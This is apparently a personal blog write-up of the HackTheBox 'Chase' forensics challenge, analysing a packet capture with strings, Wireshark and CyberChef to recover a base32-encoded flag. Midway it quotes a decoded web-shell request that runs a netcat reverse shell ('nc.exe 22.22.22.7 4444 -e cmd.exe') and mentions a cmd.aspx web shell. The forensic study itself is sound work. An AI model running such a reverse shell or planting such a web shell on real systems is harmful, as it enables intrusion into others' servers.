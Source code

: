 ```yaml
---
title: "Chase Forensics Challenge"
date: 2021-10-04T17:30:30
categories:
  - challenge
tags:
  - HacktheBox
  - Forensics
classes: wide
---
```

To diversify my skill-set I have decided to work on CTF style challenges and write about them. The first, a forensics challenge: Chase from [HackTheBox](https://app.hackthebox.eu/challenges/chase)

>*"One of our web servers triggered an AV alert, but none of the sysadmins say they were logged onto it. We've taken a network capture before shutting the server down to take a clone of the disk. Can you take a look at the PCAP and see if anything is up?"*

This is also a test of adding images to these posts, and doing challenge writeups.

---

First we unzip the file we downloaded from HackTheBox.

<img src="/assets/images/chase/chase1.PNG" alt="Unzipping the challenge files.">

We see that we have a `chase.pcapng` which according to Wireshark's [wiki](https://wiki.wireshark.org/Development/PcapNg) is:

>*"The PCAP Next Generation Dump File Format (or pcapng for short) is an attempt to overcome the limitations of the currently widely used (but limited) libpcap format."*

So it is a packet capture dump file. We'll run `strings chase.pcapng` to see what strings we can read inside first.

<img src="/assets/images/chase/chase2.PNG" alt="Running strings on the file.">

We see web requests and responses, dumped by Wireshark. Looking around more we see:

<img src="/assets/images/chase/chase3.PNG" alt="/cmd.aspx + GET /nc64.exe">

We see the running of a `cmd.aspx` file which according to [fileinfo](https://fileinfo.com/extension/aspx) is:

>*"An ASPX file is an Active Server Page Extended (ASPX) file, which is a webpage generated by web servers running the Microsoft ASP.NET framework. It contains one or more scripts written in VBScript or C# code that are processed by the web server into HTML"*

This combined with `GET /nc64.exe` and the classic python SimpleHTTP server indicates that an attacker is running scripts to open `cmd.exe` and trying to transfer netcat in order to setup a reverse shell.

This is seen further when we url decode:

```
path=c%3A%5Cwindows%5Csystem32%5Ccmd.exe&xcmd=%2Fc+c%3A%5Cusers%5Cpublic%5Cnc.exe+22.22.22.7+4444+-e+cmd.exe&Button=Run
#into
path=c:\windows\system32\cmd.exe&xcmd=/c c:\users\public\nc.exe 22.22.22.7 4444 -e cmd.exe&Button=Run
```

We see they get in and run commands through this section of the pcap:

<img src="/assets/images/chase/chase4.PNG" alt="running whoami and ipconfig">

We open up Wireshark and go through the pcap dump, following the various tcp streams. We see this message on stream 6, and a request for a weird `.txt`.

<img src="/assets/images/chase/chase6.PNG" alt="running whoami and ipconfig">

Running the filename through GCHQ's [cyberchef](https://gchq.github.io/CyberChef/) magic algorithm which :

>*"attempts to detect various properties of the input data and suggests which operations could help to make more sense of it."*

Reveals the following:

<img src="/assets/images/chase/chase7.PNG" alt="Success!">

The flag was encoded in base32, we have successfully captured the flag! 